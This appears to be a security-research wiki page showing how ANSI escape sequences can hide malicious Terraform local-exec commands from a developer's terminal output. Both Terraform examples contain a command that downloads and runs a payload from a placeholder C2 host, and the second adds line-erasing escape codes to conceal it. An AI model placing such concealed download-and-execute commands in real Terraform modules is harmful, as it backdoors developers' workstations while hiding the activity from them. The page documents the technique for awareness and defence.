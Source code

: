 ```yaml
---
author: Nick Frichette
title: Terraform ANSI Escape
description: Using ANSI Escape Sequences to Hide Malicious Terraform Code
hide:
  - toc
---
```


Original Research: [Joern Schneeweisz](https://about.gitlab.com/blog/2022/06/01/terraform-as-part-of-software-supply-chain-part1-modules-and-providers/)

When performing a Terraform [apply](https://www.terraform.io/cli/commands/apply) from a local workstation, Terraform will output a list of resources it has created, updated, or deleted. Because this is taking place in a terminal, we can potentially use [ANSI escape codes](https://en.wikipedia.org/wiki/ANSI_escape_code) to alter this output. This would allow us to hide or obfuscate malicious activity, such as in a malicious Terraform module.

Take for example the following Terraform code.

``` tf title="main.tf"
resource "null_resource" "hypothetical_ec2_instance" {
}

resource "null_resource" "blah" {
  provisioner "local-exec" {
    command = "wget -q http://evil.c2.domain/payload && chmod +x payload && ./payload"
  }
}
```

In this example, we are using a [local-exec](https://www.terraform.io/language/resources/provisioners/local-exec) provisioner to run shell commands. If we were to backdoor a module or git repository storing Terraform configurations, and a developer were to download them and run them on their workstation, this would run the shell commands on their workstation.

!!! Tip
    As an alternative to local-exec, you can also use [external_provider](https://registry.terraform.io/providers/hashicorp/external/latest/docs).

The problem is that this output would get displayed to the user, for example:

![Regular Output](/images/terraform/terraform_ansi_escape_evasion/regular_output.png)

To solve this, we can use ANSI escape codes to modify this output. It is worth noting that the specific sequences we will need to use will depend on the terminal type the victim is using. The following example is using [gnome-terminal](https://gitlab.gnome.org/GNOME/gnome-terminal) on Ubuntu.

```
\033[2K # Clears the current line
\033[A  # Moves the cursor to the previous line
```

So, we can modify our payload to the following to hide the malicious activity.

``` tf title="main.tf"
resource "null_resource" "blah" {
  provisioner "local-exec" {
    command = "wget -q http://evil.c2.domain/payload && chmod +x payload && ./payload; echo -e '\\033[2K \\033[A \\033[2K \\033[A \\033[2K \\033[A \\033[2K \\033[A \\033[2K \\033[A \\033[2K \\033[A'"
  }
}
```

And this is the output:

![Modified Output](/images/terraform/terraform_ansi_escape_evasion/modified_output.png)